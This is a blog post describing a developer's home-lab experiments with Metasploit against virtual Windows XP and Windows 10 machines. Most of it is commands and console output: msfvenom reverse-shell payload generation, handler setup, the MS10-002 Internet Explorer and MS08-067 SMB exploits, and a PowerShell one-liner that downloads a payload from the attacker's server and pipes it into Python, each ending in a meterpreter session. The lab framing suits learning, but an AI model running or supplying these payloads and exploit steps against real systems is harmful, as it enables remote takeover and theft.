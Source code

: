 Metasploit
==========

:date: 2021-07-30 20:15
:tags: security, linux, hacking, metasploit, reverse shell,
:summary: Fun with Metasplot, aka How To Hack

I am a software developer and no a security researcher. But it is still
important to master the current security principles. Of course you can read all
about it, but more fun would be to try this out. Back in the days I already play
with some penetration tools on
`Backtrack <https://en.wikipedia.org/wiki/BackTrack>`__.
Mostly I hacked someone WLAN, or stuff like this.

Now its time to play with Metasploit. I don't go into too much detail, I just
try it out and present the results.


The Basics
----------
There are a lot of tools to have fun with security. We are going to use
Metasploit. I think you can install it on your system, but I work with Kali for
any security task I have. By the way I run Kali on
`Virtualbox <https://www.virtualbox.org>`__.
What I also use for my vulnerable targets.

  * `Kali <https://www.kali.org/get-kali/#kali-virtual-machines>`__
  * `Windows 10/8/7 <https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/#downloads>`__
  * `Windows 10 Development environment <https://developer.microsoft.com/de-de/windows/downloads/virtual-machines/>`__
  * `Windows XP <https://isoriver.com/windows-xp-iso-download/>`__

The basic steps for exploiting a system are:

  1. Choosing and configuring an exploit
      Code that enters a target system by taking advantage of one of its bugs.
  2. Choosing and configuring a payload
      Code that will be executed on the target system upon successful entry.
      Mostly this will by remote shell.
  3. Executing the exploit.
      ..


Example 0x01 - Revers Shell
---------------------------
You can create an executable file, that will connect to your device. Almost any
security scanner will detect this file. But anyway let us use this for the first
try. You may need to turn off your virus program. As you can see in the video,
Windows also detects and deletes this file, even though I had switched off
Windows Defender. This is the finale result, all commands below the video:

.. image:: {static}/images/articels/security/metasploit-001.gif
  :width: 100 %
  :alt: alternate text

First we create the execute file:

.. code-block:: bash

  $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.178.41 LPORT=5555 -f exe > shell.exe

Run web server with python to copy the file to the target:

.. code-block:: bash

  $ python3 -m http.server

Now you can download the file on the target. Before we execute it, we have to
setup Metasploit. Open Metasploit

.. code-block:: bash

  $ msfconsole

and set it up:

.. code-block:: bash

  msf6 > use exploit/multi/handler
  msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
  PAYLOAD => windows/meterpreter/reverse_tcp
  msf6 exploit(multi/handler) > set LHOST 192.168.178.41
  LHOST => 192.168.178.41
  msf6 exploit(multi/handler) > set LPORT 5555
  LPORT => 5555
  msf6 exploit(multi/handler) > run

Now execute the file on the target device.


Example 0x02 - Internet Explorer 6
----------------------------------
You see from the example before: If your system is up to date, it's hard to
execute an existing exploit. Now we will use something old, and slowly -
Internet Explorer 6. Yes the old on from Windows XP.

This is also a more realistic example. There is a program with a critical
security problem. If the user is interacting with the wrong data, you can take
over the system. For this exploit: Take the Internet Explorer 6 and visit the
wrong url.

This is how it looks, the commands are under the video:

.. image:: {static}/images/articels/security/metasploit-002.gif
  :width: 100 %
  :alt: alternate text

Start Metasploit

.. code-block:: bash

  $ msfconsole

and set it up:

.. code-block:: bash

  msf6 > use exploit/windows/browser/ms10_002_aurora
  msf6 exploit(windows/browser/ms10_002_aurora) > set PAYLOAD windows/meterpreter/reverse_tcp
  PAYLOAD => windows/meterpreter/reverse_tcp
  msf6 exploit(windows/browser/ms10_002_aurora) > set LHOST 192.168.178.41
  LHOST => 192.168.178.41
  msf6 exploit(windows/browser/ms10_002_aurora) > set LPORT 5555
  LPORT => 5555
  msf6 exploit(windows/browser/ms10_002_aurora) > set SRVHOST 192.168.178.41
  SRVHOST => 192.168.178.41
  msf6 exploit(windows/browser/ms10_002_aurora) > set SRVPORT 80
  SRVPORT => 80
  msf6 exploit(windows/browser/ms10_002_aurora) > set URIPATH /
  URIPATH => /
  msf6 exploit(windows/browser/ms10_002_aurora) > exploit
  [*] Exploit running as background job 0.
  [*] Exploit completed, but no session was created.
  msf6 exploit(windows/browser/ms10_002_aurora) >
  [*] Started reverse TCP handler on 192.168.178.41:5555
  [*] Using URL: http://192.168.178.41:80/
  [*] Server started.

If you now visit  http://192.168.178.41/ with Internet Explorer, you should see
something like:

.. code-block:: bash

  [*] 192.168.178.45   ms10_002_aurora - Sending MS10-002 Microsoft Internet Explorer "Aurora" Memory Corruption
  [*] Sending stage (175174 bytes) to 192.168.178.45
  [*] Meterpreter session 1 opened (192.168.178.41:5555 -> 192.168.178.45:1046) at 2021-07-26 04:33:54 -0400

You can now interact with the session:

.. code-block:: bash

  msf6 exploit(windows/browser/ms10_002_aurora) > sessions -l

  Active sessions
  ===============

    Id  Name  Type                     Information                            Connection
    --  ----  ----                     -----------                            ----------
    1         meterpreter x86/windows  AXJU-5980144708\axju @ AXJU-598014470  192.168.178.41:5555 -> 192.168.178.45
                                       8                                      :1046 (192.168.178.45)

  msf6 exploit(windows/browser/ms10_002_aurora) > sessions -i 1
  [*] Starting interaction with 1...

  meterpreter > sysinfo
  Computer        : AXJU-5980144708
  OS              : Windows XP (5.1 Build 2600, Service Pack 3).
  Architecture    : x86
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  meterpreter >


Example 0x03 - Windows XP
-------------------------
We're still on Windows XP. But now with a program that runs in the background.
The user doesn't have to do anything and we can still take over the system.
Again the finale result and the commands are below:

.. image:: {static}/images/articels/security/metasploit-003.gif
  :width: 100 %
  :alt: alternate text

Start Metasploit

.. code-block:: bash

  $ msfconsole

and set it up:

.. code-block:: bash

  msf6 > use exploit/windows/smb/ms08_067_netapi
  msf6 exploit(windows/smb/ms08_067_netapi) > set PAYLOAD windows/meterpreter/reverse_tcp
  PAYLOAD => windows/meterpreter/reverse_tcp
  msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST 192.168.178.41
  LHOST => 192.168.178.41
  msf6 exploit(windows/smb/ms08_067_netapi) > set LPORT 5555
  LPORT => 5555
  msf6 exploit(windows/smb/ms08_067_netapi) > set RHOST 192.168.178.45
  RHOST => 192.168.178.45
  msf6 exploit(windows/smb/ms08_067_netapi) > exploit

Now you should see something like:

.. code-block:: bash

  [*] Started reverse TCP handler on 192.168.178.41:5555
  [*] 192.168.178.45:445 - Automatically detecting the target...
  [*] 192.168.178.45:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
  [*] 192.168.178.45:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
  [*] 192.168.178.45:445 - Attempting to trigger the vulnerability...
  [*] Sending stage (175174 bytes) to 192.168.178.45
  [*] Meterpreter session 1 opened (192.168.178.41:5555 -> 192.168.178.45:1038) at 2021-07-26 04:14:41 -0400

  meterpreter >

And this is all, now you have the control over the target system. See how
dangers Windows XP is?


Example 0x04 - Python
---------------------
Of course there are also complex methods of executing code on the target system.
The example is similar to the first, the user has to execute a command. Which
loads the code and runs it with Python. We assume that Python is installed on
the target. Since the payload is loaded directly into the memory, we can use
Windows 10 again. And Windows Defender can also be activated.

You know it, scroll for the commands or enjoy the video:

.. image:: {static}/images/articels/security/metasploit-004.gif
  :width: 100 %
  :alt: alternate text

.. code-block:: bash

  $ msfvenom -p python/meterpreter/reverse_tcp  LHOST=192.168.178.41 LPORT=5555 -f raw > shell.py
  $ python3 -m http.server

Now we quick config Metasploit:

.. code-block:: bash

  msf6 > use exploit/multi/handler
  [*] Using configured payload generic/shell_reverse_tcp
  msf6 exploit(multi/handler) > set PAYLOAD python/meterpreter/reverse_tcp
  PAYLOAD => python/meterpreter/reverse_tcp
  msf6 exploit(multi/handler) > set LHOST 192.168.178.41
  LHOST => 192.168.178.41
  msf6 exploit(multi/handler) > set LPORT 5555
  LPORT => 5555
  msf6 exploit(multi/handler) > exploit

  [*] Started reverse TCP handler on 192.168.178.41:5555
  [*] Sending stage (39392 bytes) to 192.168.178.42

On the target we open the PowerShell and execute:

.. code-block:: bash

  (new-object net.webclient).DownloadString('http://192.168.178.41:8000/shell.py') | python

This will load and execute the python script. Now you have access to the target
system with Metasploit:

.. code-block:: bash

  [*] Meterpreter session 1 opened (192.168.178.41:5555 -> 192.168.178.42:49636) at 2021-07-26 05:30:28 -0400

  meterpreter >


Conclusion
==========
This is funny. I enjoy playing with some security tools. And knowing some Issues
from other programs will make you write better source code.
